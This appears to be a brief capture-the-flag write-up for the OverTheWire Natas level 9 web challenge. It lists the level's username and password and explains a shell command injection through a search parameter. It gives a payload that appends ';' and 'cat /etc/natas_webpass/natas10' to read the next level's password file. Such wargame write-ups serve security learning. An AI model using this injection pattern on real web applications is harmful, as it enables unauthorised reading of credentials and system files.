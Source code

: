 # Username
natas9

# Password
ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t

# Web Vulnerbility
Dictionary search exploit 

# Method of solve
viewing page source we see there is a disctory and the ability to inject shell commands
use natas9?needle=anything; cat /etc/natas_webpass/natas10 
sensitive data will be shown. 
